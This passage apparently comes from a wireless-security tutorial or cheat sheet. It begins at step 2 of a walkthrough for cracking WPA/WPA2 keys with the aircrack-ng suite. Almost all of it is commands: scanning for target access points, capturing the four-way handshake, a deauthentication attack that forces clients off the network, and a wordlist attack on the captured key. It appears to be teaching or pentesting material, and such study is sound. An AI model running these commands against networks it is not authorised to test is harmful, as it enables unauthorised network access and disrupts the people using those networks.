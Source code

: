   2. **Identify Target**:

     ```
     airodump-ng mon0

     ```

  3. **Capture Four-Way Handshake**:

     ```
     airodump-ng -c <channel> -w <filename> --bssid <AP BSSID> mon0

     ```

  4. **Deauthentication Attack**:

     ```
     aireplay-ng --deauth 10 -a <AP BSSID> -c <client MAC address> mon0

     ```

  5. **Crack WPA/WPA2 Key**:

     ```
     aircrack-ng -w <wordlist> <capture file>.cap

     ```

{{</ collapse >}}
